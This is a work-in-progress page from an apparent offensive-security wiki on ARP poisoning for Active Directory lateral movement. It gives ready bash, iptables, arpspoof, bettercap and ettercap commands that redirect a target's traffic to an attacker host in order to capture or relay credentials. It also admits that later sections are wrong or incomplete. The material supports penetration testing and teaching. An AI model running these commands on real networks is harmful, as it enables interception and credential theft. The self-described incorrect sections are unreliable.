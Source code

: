 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# 🛠️ ARP poisoning

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="danger" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains \(not an comprehensive list\). 

1. [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) and [NTLM relay](../abusing-lm-and-ntlm/relay.md) : spoof an SMB server and reroute received SMB packets to internal capture or relay servers
2. [DNS spoofing](dns-spoofing.md) : spoof the internal DNS server, so that DNS queries can be answered with fake resolutions
3. [WSUS attacks](../../../systems-and-services/privilege-escalation/windows/wsus-attacks.md) : spoof the WSUS server and deliver evil configurations to Windows clients
4. [Dumping network secrets](../credentials/dumping/network-secrets.md) : reroute any traffic and dump secrets that were insecurely sent \(i.e. FTP, HTTP,  SMTP, ...\)

Before attempting ARP spoofing, it is important to know what to spoof and how. There are three major scenarios that can occur. Each scenario involves a different attack method.

//// important : with ARP spoofing we can either

* intercept packets, spoof a server and act like one \(DNS, WSUS\)
* intercept and forward packets \(outgoing and incoming\) which needs both ways spoofing \(spoof target for server, and spoof server for target\), used for PCreds for instance

1. **One segment**: the machine to spoof, the target, and the attacker's machine are on the same network segment.
2. **Two segments**: both the target and the attacker's machine are on the same network segment but the spoofed machine is on another one.
3. **Three segments**: all three machines are on different network segments.

### Scenario 1 : one segment

Packets destined to the Server are to be intercepted.

![](../../../.gitbook/assets/arp-spoofing-scenario-1.png)

```bash
# delete all rules 
iptables --flush

# delete all rules in the "nat" table
iptables --table nat --flush

# enable packet forwarding for IPv4
echo 1 > /proc/sys/net/ipv4/ip_forward

# forwarded packets are not to be modified in any way
iptables --table nat --append POSTROUTING --out-interface $INTERFACE --jump MASQUERADE

# packets that were destined to the Server, on port PORT/PROTO
# are to be intercepted and forwarded to an attacker controlled server 
# or to the legitimate server depending on what the attacker wants
iptables --table nat --append PREROUTING --jump DNAT --proto $UDP_or_TCP -s $TARGET --dst $SERVER_IP –dport $SERVER_PORT –to-destination $ATTACKER_IP:$ATTACKER_PORT

# poison the target's arp table and spoof the Server's IP address
arpspoof -i $INTERFACE -t $TARGET $SERVER
```

### Scenario 2 : two segments

Packets destined to the Server are to be intercepted. Packets that are not destined to the server are to be forwarded.

![](../../../.gitbook/assets/arp-spoofing-scenario-2.png)

```bash
# delete all rules 
iptables --flush

# delete all rules in the "nat" table
iptables --table nat --flush

# enable packet forwarding for IPv4
echo 1 > /proc/sys/net/ipv4/ip_forward

# forwarded packets are not to be modified in any way
iptables --table nat --append POSTROUTING --out-interface $INTERFACE --jump MASQUERADE

# packets that were destined to the Server, on port 53/UDP
# are to be intercepted and forwarded to an attacker controlled server
iptables --table nat --append PREROUTING --jump DNAT --proto $UDP_or_TCP -s $TARGET --dst $SERVER_IP –dport $SERVER_PORT –to-destination $ATTACKER_IP:$ATTACKER_PORT

# poison the target's arp table and spoof the Server's IP address
arpspoof -i $INTERFACE -t $TARGET $SERVER
```

### Scenario 3 : three segments

TODO //



Rest of this is wrong on incomplete

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.

{% tabs %}
{% tab title="Bettercap" %}
The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```
{% endtab %}

{% tab title="Ettercap" %}
While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

